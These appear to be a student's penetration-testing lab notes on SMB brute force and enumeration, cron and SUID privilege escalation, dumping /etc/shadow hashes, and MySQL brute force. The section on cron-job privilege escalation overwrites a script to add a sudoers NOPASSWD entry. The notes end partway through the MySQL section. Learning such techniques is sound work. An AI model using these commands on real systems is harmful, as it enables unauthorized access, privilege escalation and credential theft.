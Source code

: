 ### Exploiting SAMBA
- port 445, maybe 139
- brute force, SMBmap to enumerate, SMBclient also
1. `nmap -sV 10.10.x.x`
2.  Brute-force: DEMO command:`hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 smb`
3.  SMBMAP: `smbmap -H 10.10.x.x -u username -p password`
4.  SMBCLIENT share access: `smbclient //10.10.x.x/sharename  -U username` <-- need passwords optained for this
5.  in smb: `dir` etc, `get file.tar.gz` <-- after on linux`tar xzf file.tar.gz`
6.  flag in nancy, admin. 
7.  
**Enum4linux**
1. `enum4linux -a 10.10.x.x`
2. using after bruteforce: `enum4linux -a -u username -p password 10.10.x.x`

### Exploiting CRON jobs
- task sheduling. a application or script that is configured to run repeatedly with Cron is known as a cron job
- Cron job that have been created by the root user will have root priveleges
- find and identify cronjobs
  !!After logging in and having credentials!!
1. to see file privileges `ls -al`, to see list of sheduled cron jobs `crontab -l`
2.  look for occurences of the root privileged files : `grep -rnw /usr -e "/home/student/message"`
3.  `ls -al /usr/local/share/copy.sh`
4.  `printf '#!/bin/bash\necho "youraccount ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
### Exploiting SUID Binaries PRiv esc technique
- depends on the owner of the SUID binary: needs root privileges.
- In order to elevate our privileges, we will need to identify an SUID binary that is owned by the "root" user.
!!THIS DEMO IS ALREADY GOT IN TO THE SYSTEM, THIS IS PRIVESC PART!!
"student demo"
R=READ - W=WRITE - S=SUID - X=EXECUTE - 
1. `groups youraccount`
2. lists files detailly with hidden files: `ls -al`
3. ...

### Dumbping Linux Password Hashes
-optaining bash session if backdoor exploit: `/bin/bash -i`
- all encrypted passwords are stored in the: /etc/shadow , root priv
-  password HASH: $1=MD5 $2=Blowfish $5=SHA-256 $6=SHA-512
-  !!Gain privilege first and root user!!
1. if root user: `cat /etc/shadow`
2. background meterpreter session and `search hashdump`

### Exploiting MySQL Database
port: 3306
1. `searchsploit MySQL version.version`
2. BruteForce MSFconsol: `search mysql_login` -> `use 0` -> `set RHOSTS ->set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` -> `run`
3.  mysql login, in terminal: `mysql -u root -p -h 10.10.x.x`, password is null, hit enter
4.  in MySQL: `show databases` -, 